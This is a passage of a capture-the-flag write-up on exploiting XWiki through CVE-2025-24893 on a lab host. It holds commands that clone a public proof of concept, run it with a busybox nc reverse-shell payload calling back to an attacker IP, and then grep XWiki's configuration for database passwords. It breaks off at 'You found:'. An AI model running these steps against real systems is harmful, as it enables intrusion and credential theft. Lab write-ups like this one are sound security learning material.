 XWiki **15.10.8** (and versions < 15.10.11) is vulnerable to **CVE-2025-24893**, an authenticated RCE. There exist public Proof-of-Concept repositories demonstrating exploitation when authentication is possible or can be bypassed via exposed endpoints or misconfigurations.

(You used a public PoC to exploit the instance in this lab.)

---

## Exploitation — Initial Access (Reverse Shell)

### Clone PoC & exploit

On attacker machine:

```bash
git clone https://github.com/gunzf0x/CVE-2025-24893
cd CVE-2025-24893
```

Prepare a reverse-shell payload and run the PoC:

```bash
# start a listener on attacker machine
nc -lnvp 4444

# run the PoC against the target (example payload uses busybox nc)
python3 CVE-2025-24893.py -t http://editor.htb:8080/ -c 'busybox nc 10.10.14.25 4444 -e /bin/bash'
```

On success, you will receive a reverse shell as the `xwiki` user. Make it interactive:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# optionally send ctrl-z then: stty raw -echo; fg
```

---

## Post-Access Enumeration & Credentials Discovery

While on the box as `xwiki`:

1. Check for other users and home directories:

```bash
cd /home
ls
# found: oliver
```

2. Look for application configuration files (XWiki):

```bash
# Inspect XWiki config where DB credentials may appear
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep -i password -n
```

You found:
